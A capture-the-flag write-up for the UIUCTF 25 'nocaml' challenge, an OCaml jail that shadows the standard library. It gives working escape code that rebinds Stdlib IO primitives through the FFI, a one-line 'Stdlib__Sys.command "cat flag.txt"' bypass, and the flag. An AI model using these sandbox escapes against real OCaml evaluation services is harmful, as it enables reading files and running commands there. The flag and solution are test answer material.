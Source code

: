 ```yaml
---
title: UIUCTF 25 - nocaml
date: '2025-07-28T11:21:17+02:00'
math: false
categories:
- writeup
- uiuctf25
tags:
- misc
- ocaml
authors:
- nect
---
```


## Overview

This is a sort of jail written in OCaml.
The `nocaml.ml` module shadows all functions and modules of the standard library
and is automatically imported by the challenge (with `-open Nocaml`).

```ocaml
let raise = ()
let raise_notrace = ()
let invalid_arg = ()
let failwith = ()
let ( = ) = ()
let ( <> ) = ()
let ( < ) = ()
let ( > ) = ()
let ( <= ) = ()
let ( >= ) = ()
let compare = ()
let min = ()
let max = ()
let ( == ) = ()
let ( != ) = ()
let not = ()
let ( && ) = ()
let ( || ) = ()
let __LOC__ = ()
let __FILE__ = ()
let __LINE__ = ()
let __MODULE__ = ()
(* and so on ... *)
```

As usual, the objective is reading the file `flag.txt`.

## Exploitation

The first thing that came to mind was using `Pervasives` (the old name of the `Stdlib` module).
Unfortunately newer version of OCaml removed this alias.

At this point I went for the foreign function interface.
With the use of the `external` keyword, it's possible to declare
and invoke functions following the C ABI.

We don't have a way to create new foreign functions, but we don't really need to!
The `Stdlib` is always compiled and linked, even if we can't access it from the code.
This means that plenty of internal functions can be brought back with the FFI.

By diving into the [standard library code](https://github.com/ocaml/ocaml/tree/trunk/stdlib)
I found some useful primitives for IO.
The script we used to get the flag is the following:

```ocaml
(* directly from Stdlib *)
type open_flag =
    Open_rdonly | Open_wronly | Open_append
  | Open_creat | Open_trunc | Open_excl
  | Open_binary | Open_text | Open_nonblock

external open_desc : string -> open_flag list -> int -> int = "caml_sys_open";;
external set_in_channel_name : in_channel -> string -> unit = "caml_ml_set_channel_name";;
external open_descriptor_out : int -> out_channel = "caml_ml_open_descriptor_out"
external open_descriptor_in : int -> in_channel = "caml_ml_open_descriptor_in"
external output_char : out_channel -> char -> unit = "caml_ml_output_char";;
external input_char : in_channel -> char = "caml_ml_input_char";;

let open_in name =
  let c = open_descriptor_in (open_desc name [Open_rdonly; Open_text] 0) in
  set_in_channel_name c name;
  c
;;

let stdout = open_descriptor_out 1;;
let flag = open_in "flag.txt";;

let rec f () =
    output_char stdout (input_char flag);
    f ()
;;

f()
```

After this solve I also found a much shorter one (possibly unintended).
To prevent module collisions the compiler produces for `Parent.Child` modules
in the format `Parent__Child`.
The Stdlib is [not an exception][dune] to this, so we can rely on those internal names:

```ocaml
Stdlib__Sys.command "cat flag.txt"
```

In both cases

```sh
$ (base64 -w0 solve.ml; echo) | ncat --no-shutdown --ssl nocaml.chal.uiuc.tf 1337
== proof-of-work: disabled ==
uiuctf{nocaml_79976241e31bee31e37c42885}
```

[dune]: https://github.com/ocaml/ocaml/blob/9d44d724ad63ea76e22f5ac4740d7d0a66ec92bd/toplevel/dune#L92
